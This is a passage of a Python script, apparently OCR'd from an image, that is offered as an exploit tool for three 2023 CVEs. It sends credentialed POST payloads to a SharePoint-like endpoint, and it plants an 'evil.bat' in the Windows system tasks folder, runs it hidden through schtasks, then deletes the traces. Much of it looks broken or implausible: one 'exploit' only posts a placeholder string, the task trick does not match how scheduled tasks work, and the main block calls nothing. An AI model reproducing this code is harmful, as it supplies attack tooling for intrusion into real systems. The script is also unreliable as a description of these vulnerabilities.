     except Exception as e:
        print(f"CVE-2023-21674: Error: {e}")

def exploit_cve_2023_21743(target_url, username, password, payload_data="exploit_payload"):
    try:
        vulnerable_endpoint = f"{target_url}/_layouts/15/start.aspx"
        payload = {
            "Content-Type": "application/x-www-form-urlencoded",
            "data": payload_data
        }
        response = requests.post(vulnerable_endpoint, auth=HTTPBasicAuth(username, password), data=payload)

        if response.status_code == 200:
            print("CVE-2023-21743: Exploit executed successfully!")
            print("CVE-2023-21743: Response:", response.text)
        else:
            print("CVE-2023-21743: Exploit failed!")
    except Exception as e:
        print(f"CVE-2023-21743: Error: {e}")

def exploit_cve_2023_21549():
    try:
        temp_file = tempfile.NamedTemporaryFile(delete=False)
        temp_file_path = temp_file.name
        temp_file.write(b'whoami > C:\\Windows\\Temp\\cve_2023_21549_output.txt')
        temp_file.close()

        command = f'fsutil resource setautoreset true C:\\ && copy /y "{temp_file_path}" C:\\Windows\\System32\\tasks\\evil.bat && schtasks /run /tn evil'
        subprocess.run(command, shell=True, check=True, creationflags=subprocess.CREATE_NO_WINDOW)

        time.sleep(2)

        with open('C:\\Windows\\Temp\\cve_2023_21549_output.txt', 'r') as f:
            output = f.read()
            print("CVE-2023-21549 Output:", output)

        os.remove('C:\\Windows\\Temp\\cve_2023_21549_output.txt')
        os.remove('C:\\Windows\\System32\\tasks\\evil.bat')
        os.remove(temp_file_path)

    except subprocess.CalledProcessError as e:
        print(f"CVE-2023-21549: Fehler bei der Ausführung des Befehls: {e}")
    except FileNotFoundError:
        print("CVE-2023-21549: Ausgabe konnte nicht gefunden werden.")
    except Exception as e:
        print(f"CVE-2023-21549: Ein unerwarteter Fehler ist aufgetreten: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Exploit CVE-2023-21674, CVE-2023-21743 and CVE-2023-21549")
    parser.add_argument("--target_url", help="Target URL for CVE-2023-21743")
    parser.add_argument("--username", help="Username for CVE-2023-21743")
    parser.add_argument("--password", help="Password for CVE-2023-21743")
    parser.add_argument("--payload", default="exploit_payload", help="Payload for CVE-2023-21743")
    parser.add_argument("--output_dir", help="Output directory for CVE-2023-21674")
    args = parser.parse_args()

